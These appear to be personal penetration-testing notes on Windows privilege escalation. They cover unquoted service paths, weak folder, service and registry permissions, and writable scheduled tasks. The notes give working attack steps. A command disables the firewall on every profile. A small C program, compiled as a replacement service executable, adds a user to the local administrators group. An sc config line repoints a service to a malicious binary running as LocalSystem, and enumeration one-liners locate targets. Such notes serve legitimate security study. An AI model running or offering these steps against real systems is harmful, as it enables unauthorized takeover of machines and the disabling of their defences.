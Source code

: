 Kill firewall

```
netsh advfirewall set allprofiles state off
```


binary to put in service.exe

```
 cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
 int i;
 i=system ("net localgroup administrators low /add");
 return 0;
}
```
 to compile
 
 `i686-w64-mingw32-gcc -o weakservice.exe useradd.c`



Services

Find services running with elevated privileges. Two main categories of vulnerabilities:
	- Weak service path
	- Weak permissions

. . .

Unquoted Service Path

If a privileged service is running and pointing to an unquoted service path with spaces, then Windows has to guess where the executable file is. It guesses in this order:

C:\Services\My | Spaced Directory\Service.exe   
C:\Services\My Spaced | Directory\Service.exe    
C:\Services\My Spaced Directory\Service.exe    

It assumes that each space, from left to right, is the dividing point between the executable and the arguments passed to that executable. So to exploit this situation, you could create a malicious executable and place it at the location below:

C:\Services\My.exe

To find services with spaces and without quotes, run the following CMD command:   
`wmic service get name,startname,startmode,pathname | findstr /i /v "c:\windows" | findstr /v """`    
Or try this alternative using regex:   
`wmic service get name,startname,startmode,pathname | findstr /r /c:"\\.* .*exe" | findstr /v """`

. . .

Weak Permissions Around Service   
	- Folder permissions -- replace executable   
	- Service permissions -- change executable path and executing account   
	- Registry permissions -- same through registry   

Folder Permissions   
To check folder permissions:   
`accesschk.exe -dv <username> <folder>`

To exploit, replace the executable with a malicious one

Service Permissions   
To check service permissions:   
`accesschk.exe -cv <username> <service_name>`

To check current service config:   
`sc qc <service_name>`

To modify service config:   
`sc config <service_name> binPath= "c:\path\to\malicious" obj= LocalSystem`

Registry Permissions   
Open regedit and navigate to:   
`Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>`

. . .

Scheduled Tasks

List scheduled tasks that aren't running as the current user:
get-scheduledtask | select * | where {$_.principal.userid -notlike "*$env:username*"} | format-table -property @{expression={$_.principal.userid}},taskpath,taskname,date

See what files are executed by a task (PowerShell):
$task = get-scheduledtask -taskname <task_name>
foreach ( $action in $task.actions ) { echo $action.execute }

Check permissions on those files:
accesschk.exe -v <username> <file>

If readable, then see what the executable is doing.
If writable, then replace with malicious.

. . .
NetSh Advfirewall set allprofiles state off
